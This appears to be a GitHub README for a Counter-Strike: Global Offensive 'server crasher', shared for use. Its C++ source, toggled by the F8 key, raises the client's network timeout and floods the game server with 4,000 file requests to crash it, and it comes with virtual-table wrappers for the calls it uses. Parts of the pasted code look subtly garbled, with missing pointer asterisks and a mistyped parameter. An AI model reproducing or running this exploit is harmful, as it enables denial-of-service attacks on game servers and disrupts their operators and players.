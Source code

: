 # csgo-server_crasher
need update enjoy :)

##Source Code C++

void miscellaneous::server_crash( ) {
static bool toggle;
if ( interfaces::input_system->button_down( buttoncode_t::KEY_F8 ) )
  toggle = !toggle;
if ( toggle ) {
auto netchannel = interfaces::clientstate->net_channel;
if ( !netchannel )
return;
//((void (__thiscall **)(int, signed int))((_DWORD )v96 + 124))(v96, 1163984896); settimeout
  netchannel->set_timeout( 3600.0f, false );
  //((void (__thiscall **)(int, char ))((_DWORD *)v96 + 248))(v96, &v91); requestfile
for ( int j = 0; j < 4000; j++ )
   netchannel->request_file( ".txt", false );
  c_notifications::get( ).add( true, color( 255, 0, 0 ), netchannel->is_timed_out( ) ? "server crashed. mode: linux " : "failed crashing the server" );
}
}

##sOURCE Code c++


void set_timeout( float seconds, bool force_exact = false ) {
  using fn = void( thiscall* )( void *, float, bool );
  return ( *( fn** ) this ) [ 31 ]( this, seconds, force_exact );
 }
 bool is_timed_out(  ) {
  using fn = bool( thiscall* )( void * );
  return ( ( fn** ) this ) [ 58 ]( this );
 }
 unsigned int request_file( const char filename, bool is_replay_demo ) {
  using fn = unsigned int( __thiscall* )( void , const char, bool );
  return ( *( fn** ) this ) [ 62 ]( this, filename, is_replay_demo );
 }
